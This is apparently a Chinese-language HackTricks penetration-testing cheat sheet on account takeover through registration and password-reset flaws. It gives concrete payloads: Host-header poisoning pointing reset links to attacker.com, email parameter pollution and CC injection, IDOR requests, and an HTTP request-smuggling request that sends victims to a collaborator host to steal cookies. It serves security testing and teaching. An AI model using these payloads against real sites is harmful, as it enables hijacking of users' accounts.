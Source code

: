 # 注册与接管漏洞

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}


## 注册接管

### 重复注册

* 尝试使用现有用户名生成
* 检查不同的电子邮件：
* 大写字母
* \+1@
* 在电子邮件中添加一些点
* 电子邮件名称中的特殊字符 (%00, %09, %20)
* 在电子邮件后放置黑色字符：`test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### 用户名枚举

检查您是否可以确定用户名是否已在应用程序中注册。

### 密码策略

创建用户时检查密码策略（检查您是否可以使用弱密码）。\
在这种情况下，您可以尝试暴力破解凭据。

### SQL 注入

[**查看此页面**](sql-injection/#insert-statement)以了解如何通过注册表单中的 **SQL 注入** 尝试账户接管或提取信息。

### Oauth 接管

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML 漏洞

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### 更改电子邮件

注册后尝试更改电子邮件，并检查此更改是否得到正确验证，或是否可以更改为任意电子邮件。

### 更多检查

* 检查您是否可以使用 **一次性电子邮件**
* **长** **密码** (>200) 导致 **DoS**
* **检查账户创建的速率限制**
* 使用 username@**burp\_collab**.net 并分析 **回调**

## **密码重置接管**

### 通过引荐人泄露密码重置令牌 <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. 请求将密码重置到您的电子邮件地址
2. 点击密码重置链接
3. 不要更改密码
4. 点击任何第三方网站（例如：Facebook，Twitter）
5. 在 Burp Suite 代理中拦截请求
6. 检查 referer 头是否泄露密码重置令牌。

### 密码重置中毒 <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. 在 Burp Suite 中拦截密码重置请求
2. 在 Burp Suite 中添加或编辑以下头部：`Host: attacker.com`，`X-Forwarded-Host: attacker.com`
3. 转发带有修改头部的请求\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. 查找基于 _host 头_ 的密码重置 URL，例如：`https://attacker.com/reset-password.php?token=TOKEN`

### 通过电子邮件参数重置密码 <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR on API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. 攻击者必须使用他们的账户登录并进入**更改密码**功能。
2. 启动Burp Suite并拦截请求
3. 将其发送到重发器选项卡并编辑参数：用户ID/电子邮件\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Weak Password Reset Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

密码重置令牌应该是随机生成的，并且每次都是唯一的。\
尝试确定令牌是否过期或是否总是相同，在某些情况下，生成算法较弱，可以被猜测。以下变量可能被算法使用。

* 时间戳
* 用户ID
* 用户的电子邮件
* 名字和姓氏
* 出生日期
* 加密
* 仅数字
* 小令牌序列（字符在\[A-Z,a-z,0-9]之间）
* 令牌重用
* 令牌过期日期

### Leaking Password Reset Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. 使用API/UI触发特定电子邮件的密码重置请求，例如：test@mail.com
2. 检查服务器响应并查看`resetToken`
3. 然后在URL中使用令牌，如`https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Password Reset Via Username Collision <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. 使用与受害者用户名相同的用户名在系统中注册，但在用户名前后插入空格。例如：`"admin "`
2. 使用您的恶意用户名请求密码重置。
3. 使用发送到您电子邮件的令牌重置受害者密码。
4. 使用新密码连接到受害者账户。

平台CTFd对该攻击存在漏洞。\
见：[CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Account Takeover Via Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. 在应用程序或子域中找到XSS，如果cookies的作用域为父域：`*.domain.com`
2. 泄露当前**会话cookie**
3. 使用cookie作为用户进行身份验证

### Account Takeover Via HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. 使用**smuggler**检测HTTP请求走私的类型（CL, TE, CL.TE）\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. 构造一个请求，该请求将用以下数据覆盖`POST / HTTP/1.1`：\
`GET http://something.burpcollaborator.net HTTP/1.1 X:`，目的是将受害者重定向到burpcollab并窃取他们的cookies\
3\. 最终请求可能看起来像以下内容
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone 报告利用此漏洞\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### 通过 CSRF 实现账户接管 <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. 创建 CSRF 的有效载荷，例如：“用于密码更改的自动提交 HTML 表单”
2. 发送有效载荷

### 通过 JWT 实现账户接管 <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token 可能用于验证用户。

* 使用另一个用户 ID / 电子邮件编辑 JWT
* 检查弱 JWT 签名

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## 参考

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)


{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
